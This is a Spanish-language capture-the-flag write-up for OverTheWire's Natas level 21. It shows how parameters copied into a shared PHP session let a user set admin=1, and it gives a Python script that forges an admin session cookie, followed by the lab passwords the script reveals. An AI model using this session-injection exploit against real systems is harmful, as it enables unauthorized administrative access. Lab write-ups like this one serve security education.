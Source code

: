 # Natas 21

#### URL: http://natas21.natas.labs.overthewire.org/
#### Credenciales: natas21:BPhv63cKE1lkQl04cE5CuFTzXe15NfiH

En http://natas21-experimenter.natas.labs.overthewire.org cualquier parametro que pasemos en la actualizacion de la pagina se agrega como clave de $_SESSION y se le asigna el valor correspondiente:
``` php
// http://natas21-experimenter.natas.labs.overthewire.org/
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}
```

En http://natas21.natas.labs.overthewire.org/ si $_SESSION tiene la propiedad "admin" con valor 1 entonces tiene permisos administrativos:
``` php
<?php

function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
```

Como ambos sitios son administrados por el mismo servidor asumimos que el formato de la cookie de sesion es el mismo. Entonces creamos una cookie de sesion con la propiedad admin=1 en http://natas21-experimenter.natas.labs.overthewire.org y la usamos para acceder a http://natas21.natas.labs.overthewire.org:

``` python3
import requests

URL="http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug"
h1 = {"Authorization": "Basic bmF0YXMyMTpCUGh2NjNjS0UxbGtRbDA0Y0U1Q3VGVHpYZTE1TmZpSA==, Cookie: PHPSESSID=hjj8rv5k0ncad82hhg4h9lli6o",
           "Content-Type": "application/x-www-form-urlencoded"
          }
data = "align=left&fontsize=30%25&bgcolor=green&submit=Update&admin=1"
x = requests.post(URL,headers=h1,data=data)
dangerousCookie = x.cookies.get("PHPSESSID")
print(dangerousCookie)

h2 = {"Authorization": "Basic bmF0YXMyMTpCUGh2NjNjS0UxbGtRbDA0Y0U1Q3VGVHpYZTE1TmZpSA==", "Cookie": f"PHPSESSID={dangerousCookie}", }
x = requests.get("http://natas21.natas.labs.overthewire.org",headers=h2)
print(x.text)
```

Ejecutamos este script con `python script.py` y obtenemos Password: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz

`natas22:Password: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz`






